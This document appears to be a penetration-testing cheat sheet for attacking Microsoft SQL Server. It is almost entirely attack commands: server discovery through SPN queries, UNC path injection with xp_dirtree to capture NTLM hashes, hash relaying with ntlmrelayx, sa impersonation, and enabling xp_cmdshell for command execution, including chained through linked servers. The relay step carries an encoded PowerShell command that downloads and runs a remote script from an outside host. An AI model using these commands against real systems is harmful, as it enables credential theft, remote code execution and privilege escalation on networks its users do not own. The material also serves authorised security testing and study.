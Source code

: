 **MSSQL Enumeration:**

In order to locate instances of MSSQL servers, we can run a network scan(port 1433/TCP) or if we are in an active directory enviromet we can query our domain DC for MSSQL SPNs. To do so, we can use the native "setspn" tool, or with [GetUsersSPNs.ps1]( https://github.com/nidem/kerberoast/blob/master/GetUserSPNs.ps1).

```
1. C:\> setspn -T corp1 -Q MSSQLSvc/*

2. PS C:\> .\GetUsersSPNs.ps1 
```

**CONNECTION AND AUTHENTICATION TO THE SERVER:**

Authentication to an MSSQL server, occurs in 2 stages:
  1. A login is requried. This login can be through Kerberos, or via an SQL server login which is performed with local accounts on each SQL     server.
  2. After a successfull login, the login is mapped to a database user account.

An example of this is that we may perform a SQL server login with the "sa" account, which is mapped to the "dbo" user account. However, if we perform a login with an account that doesn't has an SQL user account mapped, it will get mapped as the "guest" user. 

Generally the easiest ones to use are impacket-mssqlclient(to connect from linux) and the sqlcmd utility(to connect from windows). When using impacket-mssqlclient with active directory domain authentication don't forget the "-windows-auth" flag!

```
1. impacket-mssqlclient DOMAIN/username:password@<target-ip> -windows-auth   -> use the -windows-auth flag only if you are using a Kerberos login

~# impacket-mssqlclient -dc-ip 192.168.1.1 contoso.com/svc_sql:SqlTest123@<target-ip>

2. C:\> sqlcmd -S <computer_name> -U <username> -P <password>
```

IMPORTANT: Mainly all commands specified in this document are meant to be thrown through an impacket-mssqlclient or sqlcmd shell.

**UNC PATH Injection and Hash Relaying:**

Throw this command and verify that the authentication with you SMB server was successful:
```
xp_dirtree \\192.168.1.1\test\
```
You can easily create your SMB server with impacket:
```
~# impacket-smbserver test $(pwd) -smb2support
```
To relay the Net-NTLMv2 hash that you obtained with the xp_dirtree command you can use impacket-ntmlrelayx:
```
~# impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.120.6 -c 'powershell -enc KABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0AC
kALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAu
ADEAMQA4AC4AOQA6ADgAMQAvAHIAdQBuAC4AcABzADEAJwApACAAfAAgAEkARQBYAA=='
```

**PRIVILEGE ESCALATION:**

To view the users you can impersonate:
```
SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'
```
To impersonate(assuming you can impersonate the sa user):
```
EXECUTE AS LOGIN = sa
```

**CODE EXECUTION(through xp_cmdshell):**

Use this commands at this order:

1st ```EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;```

2nd ```EXEC xp_cmdshell "whoami"```

**CODE EXECUTION ON A LINKED MSSQL SERVER:**

To list linked SQL servers(2 ways):
```
exec sp_linkedservers;

SELECT * FROM sys.servers;
```
For this example, assume that dc01 is the linked server. 

1st ```EXEC (sp_configure 'show advanced options', 1; RECONFIGURE;) AT dc01```

2nd ```EXEC (sp_configure 'xp_cmdshell', 1; RECONFIGURE;) AT dc01```

3rd ```EXEC (xp_cmdshell 'whoami';) AT dc01```

**PRIVILEGE ESCALATION THROUGHA LINKED MSSQLSERVER:**

Supose that we have low privileges on our current MSSQL server, however there is a linked MSSQL server where we do have high privileges. So how do we do to gain high privileges on our first MSSQL server?
(For demonstration purposes we have low privileges on dc01 but high privileges on appsrv01)

Here are the commands we must throw through dc01:

1st ```EXEC ('EXEC (sp_configure "show advanced options", 1; reconfigure;  ) AT appsrv01') AT dc01```

2nd ```EXEC ('EXEC (sp_configure "xp_cmdshell", 1; reconfigure;) AT appsrv01') AT dc01```

3rd ```EXEC ('EXEC (xp_cmdshell "whoami";) AT appsrv01') AT dc01```



